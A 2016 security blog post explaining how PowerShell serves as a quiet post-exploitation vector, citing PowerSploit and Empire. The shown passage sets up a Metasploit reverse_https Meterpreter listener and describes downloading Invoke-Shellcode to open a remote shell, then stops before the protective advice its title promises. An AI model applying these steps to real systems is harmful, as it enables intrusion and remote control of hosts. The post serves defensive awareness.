 ```yaml
---
title: "PowerShell A Traceless Threat and How to Protect Yourself"
date: 2016-01-18T13:23:00.001-05:00
draft: false
type: posts
categories: 
- cybersecurity,Events,infosec,logs. incident,powershell,Security,SIEM,SIEM Alerts,windows
---
```

# PowerShell A Traceless Threat and How to Protect Yourself

<br/>

<br/>
For the past little while I have been spending time learning about PowerShell and how it can be used as a subtle threat vector within your network. A number of PowerShell exploitation frameworks have popped up recently including [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) and [Empire](http://www.redblue.team/2015/09/empire-post-exploitation-analysis-with.html), which Greg covered in length back in September. I, however, wanted to spend some time to show how subtle and insidious PowerShell can be when used as a threat medium.  
  
As mentioned in an earlier post, according to [Verizon's 2013 Data Breach Report](http://www.verizonenterprise.com/resources/reports/rp_data-breach-investigations-report-2013_en_xg.pdf) 76% of breaches involved stolen or weak credentials, so, to start, this post will assume that you have already been exploited and the attacker potentially has admin or domain admin credentials to focus on PowerShell as a threat vector.  
  
A huge thank you to the work done by [Ryan Kazanciyan](https://www.linkedin.com/in/ryankaz) and [Matt Hastings](https://www.linkedin.com/in/matt-hastings-78b6ba45) for their [research](https://www.fireeye.com/blog/threat-research/2014/08/black-hat-usa-talks-investigating-powershell-attacks.html) on PowerShell attacks, which was the starting point and principal resource for research on this topic.  
  

### Downloading and Connecting to Metasploit

Once an actor gains access to a random Windows server within your environment the first action they will typically perform is to escalate privileges. PowerSploit has a nifty PowerShell module called Invoke-ShellCode that can invoke shellcode into a running process or even PowerShell itself. So for example, you can set up a Kali Linux server with a Metasploit server listening on port 443 for incoming shellcode commands:  

```
Metasploit:
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST <Your local host>
msf exploit(handler) > set LPORT 443
msf exploit(handler) > exploit
```

Then you can run the following commands to download and run the PowerShell Invoke-Shellcode script (default Invoke--Shellcode in the Git repositories. That was a wasted day and a half.) This will create an HTTPS connection back to a C&C Meterpreter shell, or worse:  
